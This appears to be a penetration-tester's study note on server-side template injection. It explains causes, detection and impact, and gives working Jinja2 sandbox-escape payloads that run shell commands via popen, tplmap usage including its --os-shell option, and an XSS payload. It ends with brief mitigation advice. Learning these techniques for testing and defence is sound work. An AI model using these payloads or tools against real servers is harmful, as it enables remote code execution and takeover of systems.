

# Server-side template injection \[SSTI]

#### **Server-side template injection :**

occurs when user-controlled input is embedded into a server-side template, allowing users to inject template directives. This allows an attacker to inject malicious template directives and possibly execute arbitrary code on the affected server.

**Template engines** : are designed to generate web pages by combining fixed templates with volatile data.

**How can SSTI occur ? →** when user input is concatenated directly into a template rather than passed in as data

***

***

#### What is the IMPACT ?

attacker can potentially achieve remote code execution (<mark style="color:red;">`RCE`</mark>), taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

Even in cases where full remote code execution is not possible : attacker can use SSTI to read a sensitive data and files.

#### Is vulnerable or Not?

```php
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```

is Not vulnerable because user input is passed as data

```php
$output = $twig->render("Dear " . $_GET['name']);
```

vulnerable because instead of static value passed into template

```
<http://vulnerable-website.com/?name={{bad-stuff-here}>}
bad-stuff-here -> like 7*7 to test or {{hello|upper}} {{hello|lower}} 
```

Vulnerabilities like this are sometimes caused by accident due to poor template design by people unfamiliar with the security implications.

***

***

#### **Constructing SSTI Attack**

<figure><figcaption></figcaption></figure>

#### **Detection Steps**

* Identify the application’s built-in language and the running template engine by `wrong message` , `payloads` , etc.
* Identify injectable user-controlled inputs in GET and POST requests.
* Fuzz the application with special characters **`${{<%[%'"}}%\\`** Observe which ones get interpreted by the server and which ones raise errors.
* Insert basic template injection payloads in all user inputs, and observe if the application engine evaluates them.

Most template languages allow you to freely input content either by using `HTML tags` directly or by using the `template's native syntax`

***

***

#### Exploit :

```python
{{''.__class__.__mro__[1].__subclasses__()[278]("id",shell=True,stdout=-1).communicate()}}

1 -> refer to 'object'
278 -> 'popen function' used to execute command on server
popen("id",shell=True,stdout=-1) -> have 3 value
id -> refer to command 
# these numbers are not static

{{''.__class__.__base__.__subclasses__()[278].__init__.globals__['sys'].modules['os'].popen("id").read()}}

base -> show base of content in python (object) - we can replace it by 'mro__[1]'
warningMessage -> function import 'os' library
init -> to be in subclasses
```

```
Some Notes about Template techonolgies

PHP -> Smarty, Twigs
Java -> Velocity, Freemaker
Python -> JINJA, Mkao, Tornado
JS -> Jade, Rage
Ruby -> Liquid 
```

***

***

#### Methodology :

1- user input reflection

2- Technology and use some payload related for this technology

3- Exploit

<figure><figcaption></figcaption></figure>

#### Some Payloads For Test:

<figure><figcaption></figcaption></figure>

LINK: [https://x.com/jae\_hak99/status/1331967876417327104](https://x.com/jae_hak99/status/1331967876417327104)

***

***

#### Automation

TPLMAP tool:

```python
# installation
git clone <https://github.com/epinna/tplmap.git>
cd tplmap
sudo pip3 install -r requirements.txt
python3 tplmap.py -u ‘<http://www.target.com/page.php?id=1*’>

# shell
python3 tplmap.py –os-shell -u ‘<http://www.target.com/page.php?id=1*’>

// '--os-shell' option to launch a pseudo-terminal on the target.
```

***

***

#### Some Notes

```python
// Node js payload not reflect value ${7*7} = ${7*7}
```

Payloads : [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

Payloads : [https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md](https://github.com/VHAE04/bookhack/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)

Jinja → is limit who can import in template

We can get `Stored XSS` via SSTI(Template injection) : payload → `{{constructor.constructor('alert(1)')()}}`

Link : [https://hackerone.com/reports/250837](https://hackerone.com/reports/250837)

`Reflected XSS`

Link : [https://hackerone.com/reports/399462](https://hackerone.com/reports/399462)

***

***

#### **Mitigation**

* Sanitize user inputs before passing them into the templates.
* Sandboxing: execute user’s code in a sandboxed environment; though some of these environments can be bypassed, they are still considered a protection mechanism to reduce the risk of the SSTI vulnerability.

***

<mark style="color:red;">**Notion link**</mark> : [https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f](https://wise-monitor-956.notion.site/SSTI-6f295eee2f97481ab821b6b5d348b53f)

***
